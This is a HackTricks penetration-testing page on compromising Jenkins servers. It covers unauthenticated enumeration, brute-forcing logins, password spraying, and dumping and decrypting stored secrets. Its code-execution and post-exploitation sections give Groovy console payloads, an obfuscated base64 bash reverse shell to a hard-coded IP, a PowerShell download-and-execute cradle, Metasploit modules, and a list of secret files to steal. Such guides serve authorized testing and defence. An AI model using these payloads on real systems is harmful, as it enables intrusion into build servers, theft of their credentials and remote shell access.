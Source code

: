 

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


# Basic Information

Jenkins offers a simple way to set up a **continuous integration** or **continuous delivery** (CI/CD) environment for almost **any** combination of **languages** and source code repositories using pipelines, as well as automating other routine development tasks. While Jenkins doesn’t eliminate the **need to create scripts for individual steps**, it does give you a faster and more robust way to integrate your entire chain of build, test, and deployment tools than you can easily build yourself.\
Definition from [here](https://www.infoworld.com/article/3239666/what-is-jenkins-the-ci-server-explained.html).

# Unauthenticated Enumeration

In order to search for interesting Jenkins pages without authentication like (_/people_ or _/asynchPeople_, this lists the current users) you can use:

```
msf> use auxiliary/scanner/http/jenkins_enum
```

Check if you can execute commands without needing authentication:

```
msf> use auxiliary/scanner/http/jenkins_command
```

Without credentials you can look inside _**/asynchPeople/**_ path or _**/securityRealm/user/admin/search/index?q=**_ for **usernames**.

You may be able to get the Jenkins version from the path _**/oops**_ or _**/error**_

![](<../.gitbook/assets/image (415).png>)

# Login

You will be able to find Jenkins instances that **allow you to create an account and login inside of it. As simple as that.**\
Also if **SSO** **functionality**/**plugins** were present then you should attempt to **log-in** to the application using a test account (i.e., a test **Github/Bitbucket account**). Trick from [**here**](https://emtunc.org/blog/01/2018/research-misconfigured-jenkins-servers/).

## Bruteforce

**Jekins** does **not** implement any **password policy** or username **brute-force mitigation**. Then, you **should** always try to **brute-force** users because probably **weak passwords** are being used (even **usernames as passwords** or **reverse** usernames as passwords).

```
msf> use auxiliary/scanner/http/jenkins_login
```

# Jenkins Abuses

## Known Vulnerabilities

{% embed url="https://github.com/gquere/pwn_jenkins" %}

## Dumping builds to find cleartext secrets

Use [this script](https://github.com/gquere/pwn\_jenkins/blob/master/dump\_builds/jenkins\_dump\_builds.py) to dump build console outputs and build environment variables to hopefully find cleartext secrets.

## Password spraying

Use [this python script](https://github.com/gquere/pwn\_jenkins/blob/master/password\_spraying/jenkins\_password\_spraying.py) or [this powershell script](https://github.com/chryzsh/JenkinsPasswordSpray).

## Decrypt Jenkins secrets offline

Use [this script](https://github.com/gquere/pwn\_jenkins/blob/master/offline\_decryption/jenkins\_offline\_decrypt.py) to decrypt previsously dumped secrets.

## Decrypt Jenkins secrets from Groovy

```
println(hudson.util.Secret.decrypt("{...}"))
```

# Code Execution

## **Create a new project**

This method is very noisy because you have to create a hole new project (obviously this will only work if you user is allowed to create a new project).

1. Create a new project (Freestyle project)
2. Inside **Build** section set **Execute shell** and paste a powershell Empire launcher or a meterpreter powershell (can be obtained using _unicorn_). Start the payload with _PowerShell.exe_ instead using _powershell._
3. Click **Build now**

Go to the projects and check **if you can configure any** of them (look for the "Configure button"):

![](<../.gitbook/assets/image (158).png>)

Or **try to access to the path \_/configure**\_ in each project (example: /_me/my-views/view/all/job/Project0/configure_).

If you are allowed to configure the project you can **make it execute commands when a build is successful**:

![](<../.gitbook/assets/image (159).png>)

Click on **Save** and **build** the project and your **command will be executed**.\
If you are not executing a reverse shell but a simple command you can **see the output of the command inside the output of the build**.

## **Execute Groovy script**

Best way. Less noisy.

1. Go to _path\_jenkins/script_
2. Inside the text box introduce the script

```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```

You could execute a command using: `cmd.exe /c dir`

In **linux** you can do: **`"ls /".execute().text`**

If you need to use _quotes_ and _single quotes_ inside the text. You can use _"""PAYLOAD"""_ (triple double quotes) to execute the payload.

**Another useful groovy script** is (replace \[INSERT COMMAND]):

```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

## Reverse shell in linux

```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

## Reverse shell in windows

You can prepare a HTTP server with a PS reverse shell and use Jeking to download and execute it:

```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```

## MSF exploit

You can use MSF to get a reverse shell:

```
msf> use exploit/multi/http/jenkins_script_console
```

# POST

## Metasploit

```
msf> post/multi/gather/jenkins_gather
```

## Files to copy after compromission

These files are needed to decrypt Jenkins secrets:

* secrets/master.key
* secrets/hudson.util.Secret

Such secrets can usually be found in:

* credentials.xml
* jobs/.../build.xml

Here's a regexp to find them:

```
grep -re "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"
```

# References

{% embed url="https://github.com/gquere/pwn_jenkins" %}

{% embed url="https://leonjza.github.io/blog/2015/05/27/jenkins-to-meterpreter---toying-with-powersploit/" %}

{% embed url="https://www.pentestgeek.com/penetration-testing/hacking-jenkins-servers-with-no-password" %}


<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


